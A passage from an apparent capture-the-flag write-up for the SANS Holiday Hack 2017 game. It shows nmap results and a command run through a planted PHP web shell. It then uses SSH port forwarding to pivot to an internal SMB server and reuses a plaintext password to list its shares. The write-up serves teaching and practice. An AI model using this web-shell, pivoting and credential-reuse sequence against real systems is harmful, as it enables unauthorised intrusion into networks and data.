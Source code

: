 ```
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00012s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (5 hosts up) scanned in 6.46 seconds
```

Currently we are only intrested in the smb server, `hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)`.
We want to find the file server share name and to do so we probably have to talk to the server over the
smb protocol. The [`smbclient`](http://www.tldp.org/HOWTO/SMB-HOWTO-8.html), which seems to be included by
default for at least Ubuntu, should do fine.

There is a problem though, we do not seem to be able to run `smbclient` via our web shell:

```
$ smbclient || echo failed
https://l2s.northpolechristmastown.com/.K2tN5T3RX2x6j2NnZ3W1.php?e=smbclient%20||%20echo%20failed

failed
```

Fourtunately, we do have ssh access to the letters to santa server. Logging in directly to the
server brings us to a very locked down account that is of no real use. But, ssh can also be used
to forward traffic on local ports via the remote host. Using ssh port forwarding, we can setup
a connection to the internal smb server via the letters to santa server:

```
peter@peter-VirtualBox:~$ ssh -N -L 4455:hhc17-smb-server.c.holidayhack2017.internal:445 alabaster_snowball@l2s.northpolechristmastown.com
```

The command forwards connection on the local port 4455 to port 445 on the 
`hhc17-smb-server.c.holidayhack2017.internal` server, via the ssh connection
to `l2s.northpolechristmastown.com`. We can then point the `smbclient` to our 
local port 4455 and we are able to talk to the internal smb server.

The only thing remaining now is the username and password. But it turns out that
Alabaster Snowball is rather lazy... Reusing the same combination grants us access
also on the smb server:

```
peter@peter-VirtualBox:~$ smbclient -L localhost -p 4455 -U alabaster_snowball%stream_unhappy_buy_loss
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	FileStor        Disk      
	IPC$            IPC       Remote IPC
```
